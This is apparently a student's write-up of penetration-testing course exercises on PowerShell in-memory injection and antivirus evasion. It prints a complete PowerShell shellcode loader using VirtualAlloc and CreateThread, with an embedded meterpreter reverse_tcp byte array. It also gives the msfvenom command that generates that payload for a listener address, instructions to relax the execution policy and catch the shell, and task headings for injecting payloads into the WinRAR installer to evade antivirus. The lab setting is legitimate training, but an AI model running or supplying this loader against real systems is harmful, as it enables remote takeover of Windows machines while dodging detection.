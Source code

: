 # 17.3.4 Powershell In-Memory Injection

**1.  Review the code from the PowerShell script and ensure that you have a basic understanding of how it works.**

Posted below is the script we will be working with.
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script starts by importing a few functions from the kernel32.dll, specifically VirtualAlloc and CreateThread, as well as memset from msvcrt.dll. The functions will allow the allocation of memory, creation of an execution thread, and the writing of arbitrary data to said allocated memory. 

The next portion of the script (beginning at line 14), is where the memory for our payload will be allocated and written.

**2.  Get a meterpreter shell back to your Kali Linux machine using PowerShell.**

To start, we need to generate a meterpreter shell using MSFVenom:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.197 LPORT=9000 -f powershell`
We can then feed this into our initial script, setting the $sc variable to our generate payload. The final payload should look like the following:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0xf,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,0x10,0x57,0x8b,0x42,0x3c,0x1,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x1,0xd3,0x50,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xc5,0x68,0x2,0x0,0x23,0x28,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

We then need to adjust our Execution Policy to ensure we have the ability to run the script. We can check our permissions and adjust via `Get-ExecutionPolicy -Scope CurrentUser` and `Set-ExecutionPolicy Unrestricted -Scope CurrentUser` commands.
![[Pasted image 20220722201317.png]]


Once the policies are adjusted we can start MSFConsole and setup a listener using the "multi/handler" module. With our listener running we can then run the script on our Windows client and receive the reverse shell.
![[Pasted image 20220722201512.png]]


**3.  Attempt to get a reverse shell using a PowerShell one-liner rather than a script.[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/antivirus-evasion/bypassing-antivirus-detection/practice-powershell-in-memory-injection#fn1)**

For a one-liner we can use the very straightforward website "Revshells.com". This site allows us to quickly input an IP and port and select "Powershell #3 (base64)" and we will receive our one liner.

![[Pasted image 20220722203421.png]]

After setting up a listener we can run this command on our Windows client and receive our reverse connection.
![[Pasted image 20220722203527.png]]
![[Pasted image 20220722203535.png]]


# 17.3.5 Antivirus Evasion
**1.  Inject a meterpreter reverse shell payload in the WinRAR executable.**


**2.  Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus.**


**3.  Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.**


**4.  Attempt to find different executables and inject malicious code into them using Shellter.**
 ~  192.168.119.197     192.168.119.197                                                                                                                                          ✔  192.168.119.197   01:47:51 PM
